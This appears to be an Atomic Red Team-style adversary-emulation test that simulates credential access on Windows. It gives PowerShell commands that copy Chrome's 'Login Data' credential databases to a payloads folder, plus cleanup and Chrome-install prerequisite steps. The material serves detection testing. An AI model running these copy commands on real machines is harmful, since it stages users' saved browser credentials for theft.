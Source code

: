 


<br/>
<br/>

## Atomic Test #4 - Simulating access to Chrome Login Data
Simulates an adversary accessing encrypted credentials from Google Chrome Login database.

**Supported Platforms:** Windows


**auto_generated_guid:** 3d111226-d09a-4911-8715-fe11664f960d






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data For Account" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Chrome must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```



